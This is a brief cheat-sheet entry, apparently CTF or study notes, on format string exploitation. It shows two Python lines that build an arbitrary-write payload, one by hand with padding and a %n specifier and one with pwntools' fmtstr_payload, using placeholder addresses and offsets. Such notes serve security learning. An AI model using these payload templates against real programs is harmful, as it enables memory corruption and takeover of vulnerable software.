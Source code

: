 # Format String

## Arbitrary write

```python

# Manually
# NB. '|' string is often too long, so there is an additional trick which I'm not mentioning
payload = f"{w_dest_addr}{'|'*(str2w-addr_size)}%{buf_start_arg}$n"

# With pwntools
payload = fmtstr_payload(BUG_START_ARG, {W_DEST_ADDR : HEX2W})

```
